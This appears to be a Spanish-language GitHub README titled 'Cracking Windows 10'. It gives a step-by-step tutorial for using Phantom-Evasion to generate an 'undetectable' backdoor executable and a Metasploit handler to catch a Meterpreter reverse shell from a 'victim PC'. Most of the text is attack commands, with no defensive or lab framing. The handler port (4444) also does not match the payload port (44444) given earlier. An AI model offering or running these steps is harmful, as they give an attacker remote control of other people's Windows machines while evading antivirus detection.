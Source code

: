 # Cracking Windows 10

<p align="center">
<img src="./Img/logo.jpg">
</p>

Metasploit Framework es la herramienta más utilizada por los hackers en todo el mundo. Permite a los 
hackers informáticos configurar oyentes que crean un entorno propicio (denominado Meterpreter) para manipular máquinas comprometidas. 

En este artículo, veremos cómo se puede usar este marco dentro de Kali Linux para atacar una máquina con Windows 10. Lo haremos a través de un archivo ejecutable malicioso.

## Creando un archivo .exe malicioso


Para crear el ejecutable usaremos **Phantom-Evasion** que es un script que sirve para crear backdoors indetectables:

```
git clone https://github.com/oddcod3/Phantom-Evasion.git

cd Phantom-Evasion

chmod u+x phantom-evasion.py

python3 phantom-evasion.py
```

<p align="center">
<img src="./Img/phantom.png">
</p>

Seleccionaremos la opción 1, ahora el tipo de modulo opción 2, luego pulsaremos ENTER y en LHOST pondremos nuestra IP y LPORT el puerto 44444 y si nos pregunta yes o no ingresaremos todo yes.

Luego de esto tendremos nuestro backdoor generado ahora lo usaremos en la PC victima.

Ahora iniciaremos msfconsole para poder conectarnos a la pc victima:

```
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST <TU IP>

set LPORT 4444

exploit
```

Como podemos observar hemos conseguido entrar a la PC víctima. 

![Informatica](Img/sesion.png)

Ahora para acceder a la terminal ingresaremos el siguiente comando **shell** y listo esteremos dentro de la terminal.

**Creditos:** https://github.com/oddcod3/Phantom-Evasion